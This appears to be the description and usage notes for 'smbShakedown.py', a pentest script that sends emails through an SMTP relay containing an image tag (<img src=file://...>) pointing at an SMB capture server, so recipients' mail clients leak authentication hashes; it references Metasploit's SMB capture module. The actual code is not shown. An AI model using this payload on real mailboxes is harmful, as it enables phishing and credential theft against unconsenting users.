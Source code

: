 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <hmm... Does the client's Email server support relaying?>
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server can be hosted locally since your testing an internal network right?
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Auth option
    MSF Console option(auxiliary/server/capture/smb)
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
